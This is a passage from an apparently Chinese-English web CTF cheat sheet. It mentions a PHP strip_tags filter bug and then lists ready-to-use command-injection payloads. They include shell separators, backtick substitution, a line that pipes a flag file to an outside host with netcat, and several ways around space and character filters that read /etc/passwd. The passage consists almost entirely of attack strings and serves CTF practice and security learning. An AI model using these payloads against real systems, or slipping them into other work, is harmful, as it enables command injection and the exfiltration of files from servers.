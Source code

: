 - strip_tags (php bug 78814)
    - php version <= 7.4.0
    - `strip_tags("<s/trong>b</strong>", "<strong>")`
        - `<s/trong>b</strong>`
    - Example: [zer0pts CTF 2020 - MusicBlog](https://github.com/w181496/CTF/tree/master/zer0pts2020/MusicBlog)

# Command Injection

```
| cat flag
&& cat flag
; cat flag
%0a cat flag
"; cat flag
`cat flag`
cat $(ls)
"; cat $(ls)
`cat flag | nc kaibro.tw 5278`

. flag
PS1=$(cat flag)

`echo${IFS}${PATH}|cut${IFS}-c1-1`
=> /
```

## ? and *
- `?` match one character
    - `cat fl?g`
    - `/???/??t /???/p??s??`
- `*` match 多個
    - `cat f*`
    - `cat f?a*`

## 空白繞過

- `${IFS}`
    - `cat${IFS}flag`
    - `ls$IFS-alh`
    - `cat$IFS$2flag`
- `cat</etc/passwd`
- `{cat,/etc/passwd}`
- `X=$'cat\x20/etc/passwd'&&$X`
- ``` IFS=,;`cat<<<uname,-a` ```
    - bash only


## Keyword繞過
